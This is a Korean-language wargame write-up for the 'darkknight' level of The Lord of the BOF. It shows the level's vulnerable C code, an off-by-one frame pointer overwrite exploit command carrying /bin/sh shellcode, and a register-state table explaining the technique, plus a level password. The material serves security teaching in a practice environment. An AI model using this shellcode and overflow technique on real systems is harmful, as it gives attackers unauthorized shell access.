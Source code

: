 # golem

password is cup of coffee

### Problem

``` bash2
[golem@localhost golem]$ cat darkknight.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/

#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

``` bash2

[golem@localhost golem]$ /home/golem/darkknigh2 `python -c 'print "AAAA"+"\xa0\xfa\xff\xbf"+"\x90"*7+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\xa4"'`
AAAA?퓧??????1픐h//shh/bin??S??柰
                                     ?ㆊ퓹??욤?옹	@
Segmentation fault (core dumped

```

core를 이용해 분석하면 쉘코드의 위치를 정확히 알 수 있고 그에 따라 주소를 세팅해주면 된다.

``` notepad
              |   esp   |   ebp   |   eip  |
--------------------------------------------
leave         |  정상   |   변조   |  정상  |
--------------------------------------------
ret           |  정상   |   변조   |  정상  |
--------------------------------------------
add esp, 4    |  정상   |   변조   |  정상  |
--------------------------------------------
leave         | 변조+4  |  [변조]  |  정상  |
--------------------------------------------
ret           | 변조+8  |  [변조]  |[변조+4]|
--------------------------------------------
각 명령어가 끝난 뒤 레지스터의 상태이다 정상은 bof가 일어나지 않았을 경우와 같다는 것을 의미한다.
```
